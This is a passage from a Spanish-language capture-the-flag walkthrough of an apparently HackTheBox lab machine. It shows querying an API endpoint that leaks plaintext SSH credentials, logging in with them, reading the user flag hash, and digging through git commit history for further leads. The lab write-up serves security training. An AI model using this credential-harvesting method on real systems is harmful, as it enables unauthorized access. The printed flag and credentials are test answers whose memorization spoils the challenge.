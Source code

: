 ```json
      }
    }
  ]
}
```

Si nos vamos a `/api/latest/metadata/messages/authors` de las `URL's` que nos aparecen ahi de la siguiente manera...

```
http://127.0.0.1:5000/api/latest/metadata/messages/authors
```

Nos volvera a cargar una especie de imagen, pero si vamos a ese link nos descargara otra cosa, lo que parece ser las credenciales para el `ssh` de un usuario...

```json
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

```
User = dev
Password = dev080217_devAPI!@
```

Si nos conectamos al `ssh` con esas credenciales veremos que si son esas, por lo que ya estariamos dentro de la maquina...

Leemos la flag...

> user.txt (flag1)

```
f5b31202198117c3c94ba54dc2b338fb
```

Si nos vamos a la siguiente ruta...

```shell
cd ~/apps/.git
```

Y hacemos lo siguiente...

```shell
git log
```

Info:

```
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
```